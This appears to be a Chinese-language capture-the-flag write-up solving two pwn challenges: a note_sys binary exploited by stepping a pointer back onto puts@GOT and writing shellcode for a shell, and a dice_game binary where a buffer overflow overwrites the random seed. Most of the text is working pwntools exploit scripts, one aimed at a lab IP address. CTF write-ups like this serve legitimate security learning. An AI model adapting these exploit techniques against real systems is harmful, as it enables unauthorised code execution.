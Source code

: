 综上，利用dele的时候指针--的漏洞让他指向puts_got，距离为0x98，那我们dele20次，当我们选择0写入的时候指针会++,也就是直接踩到got表上了，然后在dele进程还在休眠的时候对着写入shellcode直接getshell

## exp

```python
from pwn import *
r = process('./note_sys')
#r = remote('192.168.40.10' ,'23805')
context(os='linux',arch='amd64')

for i in range(20):
   r.sendlineafter('choice:','2')
payload=asm(shellcraft.sh())
r.sendlineafter('choice:','0')
r.sendlineafter('input your note, no more than 250 characters',payload)
 
r.interactive()
```



# qctf2018-diec-game

=-=直接覆盖随机数种子，直接写个c文件生成照着填

```c
#include <stdio.h>
#include <stdlib.h>

main()
{
    int i;
	srand(6);
	for(i=0;i<50;i++)
	{
	   int test = rand()%6+1;
	   printf("%d",test);
	}
}
```

## exp

```python
from pwn import *
r = process("./dice_game")
r=remote('192.168.40.10', '29999')
li = [4,2,5,6,3,6,5,4,5,5,6,2,4,6,5,3,1,1,4,5,4,3,5,1,6,6,1,5,6,4,2,1,3,4,1,6,1,3,1,6,6,1,5,1,4,3,4,5,4,1]
r.recv()
pay = "a"*0x40 + p64(6)
r.sendline(pay)
x = 1
for i in li:
	if x>50:
		break
	r.recvuntil("Give me the point(1~6): ")
	r.sendline(str(i))
	x += 1
r.interactive()

```

